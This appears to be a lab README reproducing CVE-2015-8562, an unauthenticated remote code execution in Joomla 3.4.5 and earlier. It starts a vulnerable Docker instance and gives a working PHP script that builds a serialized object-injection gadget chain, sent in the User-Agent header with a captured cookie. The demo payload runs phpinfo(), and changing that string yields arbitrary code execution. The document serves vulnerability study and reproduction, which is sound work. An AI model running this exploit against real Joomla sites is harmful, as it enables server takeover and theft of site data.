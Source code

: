 # Joomla HTTP Header Unauthenticated Remote Code Execution (CVE-2015-8562)

[中文版本(Chinese version)](README.zh-cn.md)

Joomla is a free and open-source content management system (CMS) that allows users to build websites and online applications. It was first released in 2005 and has since become one of the most popular CMS platforms, powering millions of websites around the world.

Joomla suffers from an unauthenticated remote code execution that affects all versions from 1.5.0 to 3.4.5. By storing user supplied headers in the databases session table it's possible to truncate the input by sending an 4-bytes UTF-8 character. The custom created payload is then executed once the session is read from the database. You also need to have a PHP version before 5.4.45 (including 5.3.x), 5.5.29 or 5.6.13.

References:

- <https://packetstormsecurity.com/files/134949/Joomla-HTTP-Header-Unauthenticated-Remote-Code-Execution.html>
- <https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html>

## Vulnerable Environment

Executing following command to start a Joomla 3.4.5:

```
docker compose up -d
```

After the server is started, you can see the home page of it at `http://your-ip:8080`.

## Exploit

First of all, you need to send a request without User-Agent header and remember the Cookie in the response:

![](2.png)

Then use this script to generate a payload ([execute online](https://onlinephp.io/c/e824b)):

```php
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a); 

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
```

![](1.png)

Put this craft payload into User-Agent header with Cookie obtained earlier then send request again. As you can see, our code `phpinfo()` is executed:

![](3.png)
